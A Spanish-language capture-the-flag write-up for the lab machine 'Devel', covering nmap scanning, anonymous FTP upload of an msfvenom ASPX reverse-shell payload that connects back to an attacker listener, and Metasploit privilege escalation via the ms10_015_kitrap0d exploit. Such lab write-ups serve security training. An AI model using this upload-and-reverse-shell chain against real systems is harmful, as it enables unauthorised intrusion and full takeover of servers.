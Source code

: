 ```yaml
---
description: '✍️ Autor: ch4p 🔍 Dificultad: Fácil 📅 Fecha de creación: 3/10/2017'
---
```


# Devel

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.10.5
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-15 154035.png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV 10.10.10.5
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Durante el escaneo se identificaron los siguientes puertos abiertos:

* **Puerto 21 (FTP):** FTP es un protocolo de transferencia de archivos, y su mayor riesgo es la posibilidad de acceso anónimo o el uso de credenciales débiles. Asegúrate de verificar si el acceso anónimo está habilitado, ya que esto permitiría a cualquier persona conectarse sin credenciales. También es importante comprobar si el servidor está configurado para permitir la conexión sobre FTP sin cifrado, ya que los datos y las credenciales se transmiten en texto claro, lo que facilita la interceptación.
* **Puerto 80 (HTTP):** Este puerto generalmente está asociado a servidores web. Si el servicio está ejecutando un servidor web como Apache, Nginx o IIS, es recomendable buscar vulnerabilidades conocidas relacionadas con el software y versiones en uso (por ejemplo, a través de CVEs). Además, es importante realizar pruebas de seguridad en las aplicaciones web que se ejecutan en el servidor, como inyecciones SQL, Cross-Site Scripting (XSS) o vulnerabilidades de escalada de privilegios.

A continuación, se procederá a analizar cada uno de estos servicios en busca de posibles vectores de ataque.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p21,80 -v 10.10.10.5
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisamos el puerto 80.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Es un **Microsoft IIS**. Como tenemos el puerto 21 con el usuario Anonymous podemos subir un archivo **.aspx** y hacer una Reverse Shell.

### 🚀 **EXPLOTACIÓN**

Creamos el archivo malicioso.

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.7 LPORT=4444 -f aspx -o shell.aspx
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Lo subimos a través de FTP.

```bash
ftp 10.10.10.5
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ejecutamos mediante la URL y conseguimos la conexión con **meterpreter**.

```
shell
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Se accede al directorio `C:\Windows\TEMP` para operar en un área temporal segura.

```bash
meterpreter > cd %TEMP%
meterpreter > pwd
```

Se mantiene la sesión abierta mientras se ejecutan otros módulos en Metasploit.

```bash
meterpreter > background
```

Buscar el módulo de recomendación de exploits locales y ejecutarlo.

```
msf6 exploit(multi/handler) > search suggester
msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > show options
msf6 post(multi/recon/local_exploit_suggester) > sessions -l
msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1
msf6 post(multi/recon/local_exploit_suggester) > run
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos llama la atención el exploit `exploit/windows/local/ms10_015_kitrap0d.`

```bash
msf6 exploit(windows/local/ms10_015_kitrap0d) > set LHOST 10.10.14.7
msf6 exploit(windows/local/ms10_015_kitrap0d) > sessions -l
msf6 exploit(windows/local/ms10_015_kitrap0d) > set SESSION 2
msf6 exploit(windows/local/ms10_015_kitrap0d) > run
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ya somos **root**.

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
